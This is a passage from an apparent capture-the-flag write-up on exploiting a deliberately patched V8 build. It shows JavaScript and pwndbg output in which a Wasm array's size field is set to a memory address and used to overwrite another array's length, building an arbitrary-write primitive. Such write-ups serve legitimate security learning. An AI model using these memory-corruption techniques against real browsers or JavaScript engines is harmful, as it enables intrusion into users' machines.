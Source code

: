 This function essentially takes an argument and creates an array with that argument as its size. Then using `kExprExternConvertAny` it creates an external reference so that it can be used in JavaScript.

### Constructing Primitives

When adding properties to an object, V8 usually places them in the property array. In case of Wasm Objects, It doesnt have a property array. Lets create an array and see how the object layout is in wasm object's case.

```js
var w_array = wasm.createArray(0x1337);
```
![image](wasminator/array.png)    
We can see that the size is placed right after the map, where, in a typical JSObject, the properties array would be located. However, since this is a Wasm Object, it lacks a properties array, and due to the patch, we can manipulate these values.

So we can store any address in the size and directly change the values in that address. Now lets try to do that.

Object layout of `arr1`
```shell
0x24c6081f46f1 <JSArray[1]>
V8 version 12.7.224.12
d8>
```
```shell
pwndbg> x/8gx 0x24c6081f46f1-1
0x24c6081f46f0: 0x08000725081cce15      0x0000000208394db5
0x24c6081f4700: 0x0000000808000635      0x0000000000000004
```
The size is stored as `size<<1` which is the upper part of `0x0000000208394db5`. We now create an array using the wasm module with the address as its size and overwrite that address with a large value.

```js
var w_array = wasm.createArray(0x81f46f9); // address of arr + 8
w_array[0] = 0xffff;
```

Now if we check the size, we can see that it is overwritten.

```js
%DebugPrint(arr1);
console.log(arr1.length)
var w_array = wasm.createArray(0x81f4791);
w_array[0] = 0xffff;
console.log(arr1.length)
```
